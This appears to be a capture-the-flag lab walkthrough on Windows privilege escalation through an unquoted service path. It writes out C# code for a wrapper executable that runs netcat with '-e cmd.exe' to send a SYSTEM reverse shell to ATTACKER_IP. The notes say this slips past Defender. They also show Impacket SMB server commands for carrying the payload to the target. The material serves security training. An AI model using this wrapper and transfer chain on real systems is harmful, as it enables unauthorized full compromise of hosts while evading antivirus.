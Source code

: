 Let's recap what we found in the previous task:

- We have a privilege which we could almost certainly use to escalate to system permissions. The downside is that we'd need to obfuscate the exploits in order to get them past Defender.
- We have an unquoted service path vulnerability for a service running as the system account. This is ideal.

We have everything we need to root this box. Let's do this!

Of the two vulnerabilities that are immediately available, we will work through the *unquoted service path attack* for one simple reason: getting a reverse shell back from this is _very_ easy -- even with Defender in play. 

The exploits available to manipulate the privilege we found would need to be custom compiled and obfuscated in order to be useful to us; however, with the unquoted service path, all we need is one very small "wrapper" program that activates the netcat binary that we _already have on the target._ To put it another way, we just need to write a small executable that executes a system command: activating netcat and sending us a reverse shell as the owner of the service (i.e. local system). Ideally we would write a full C# service file that would integrate seamlessly with the Windows service management system. 

Whilst this is perfectly possible (and is by far the preferable option), for the sake of simplicity, we will stick to just creating a standalone executable. It's worth noting that this technique is effective at bypassing the antivirus software on the target; however, *in an enterprise situation there is a good chance that it would be picked up by an intrusion detection system*. In this scenario we would be looking for a more sophisticated (if similar) solution.

Ideally we'd be using Visual Studio here. If you happen to have a Windows host and are familiar with Visual Studio then please feel free to use it for. As not everyone has access to a Windows machine (or is comfortable installing Windows as a virtual machine), the teaching content will work with the `mono` dotnet core compiler for Linux. This can be easily installed on Kali and will allow us to compile C# executables that can be run on Windows targets. The same code will work just fine if compiled in Visual Studio, however.

---
## Install mono

First we need to install Mono. This can be done with:  

```
sudo apt update
sudo apt install mono-devel -y
```


If you are using the AttackBox then this should already be installed.  

## Create Wrapper.cs

Now, open a file called `Wrapper.cs` in your favourite text editor.

The first thing we need to do is add our "imports". These allow us to use pre-defined code from other "namespaces" -- essentially giving us access to some basic functions (e.g. input/output). At the very top if the file, add the following lines:  
`using System;   using System.Diagnostics;   `  

These allow us to start new processes (i.e. execute netcat).

Next we need to initialise a namespace and class for the program:  

```
namespace Wrapper{       
	class Program{           
		static void Main(){
			//Our code will go here!
		}
	}
}
```

We can now write the code that will call netcat. This goes inside the `Main()` function (replacing the `//Our code will go here!` line).

First, we create a new process, as well as a ProcessStartInfo object to set the parameters for the process:  

```
Process proc = new Process();   
ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-USERNAME.exe", "ATTACKER_IP ATTACKER_PORT -e cmd.exe");
```

_Make sure to replace the_ `nc-USERNAME.exe` _with the name of your own netcat executable, as well as slotting in your own IP and Port!_

With the objects created, we can now configure the process to not create it's own GUI Window when starting:  
`procInfo.CreateNoWindow = true;`  

Finally, we attach the `ProcessStartInfo` object to the process, and start the process!  
`proc.StartInfo = procInfo;   proc.Start();`  

Our program is now complete. It should look something like this:

![[1680d2c86ef0.png]]

## Compile

We can now compile our program using the Mono `mcs` compiler. This is extremely simple using the package we installed earlier:

```
mcs Wrapper.cs
```

![[f051e39d81f6.png]]

Write and compile a wrapper program using Mono or Visual Studio.

## Transfer Wrapper.exe

Transfer the `Wrapper.exe`   file to the target. Just to spice things up a bit, let's use an Impacket SMB server, rather than our usual HTTP server. If you would prefer to use the HTTP server and cURL (or another method to transfer the file) you are welcome to do so.


---

## Impacket

Impacket is a Python library that makes it very easy to interact with a wide variety of Windows services from Linux.  

First up, let's download the package:  
`sudo git clone https://github.com/SecureAuthCorp/impacket /opt/impacket && cd /opt/impacket && sudo pip3 install .   `

> [!Note]
>On the AttackBox Impacket is preinstalled at `/opt/impacket/impacket`

We can now start up a temporary SMB server:  
`sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword`

![[99f9b77f1bf0.png]]

With this command we created a server on our IP, serving a share called "share" in the current directory. As Impacket uses SMBv1 by default, we need to specify that is use SMBv2 in order for the relatively up-to-date target to accept it. We then set a username and password for connections to the server -- again, this is due to security policies on the target requiring connections to be authenticated.

Now, in our #Reverse_Shell , we can use this command to authenticate: 

`net use \\ATTACKER_IP\share /USER:user s3cureP@ssword`

![[9a27791867af.png]]

This authenticates with the server using the credentials we set (`user:s3cureP@ssword`). We can now copy our compiled  `Wrapper.exe` program up to the target. Due to file permissions on the normal `C:\Windows\Temp` directory, we are doing this from our current user's own `%TEMP%` directory:  

`copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe`

![[857c1d682e0e.png]]

> [!Note]
>We could have just executed this directly through the share -- exactly as we did with Mimikatz when dealing with the Gitserver. We are copying it here purely because we will need to have a copy on the target sooner or later anyway.

It is often useful to just leave an SMB server running in the background when working with Windows targets. We will use this server later, so let's leave it up for now.

That said, to prevent errors down the line, we should disconnect from it for the time being: 

`net use \\ATTACKER_IP\share /del`

![[060e1ee4ce7c.png]]

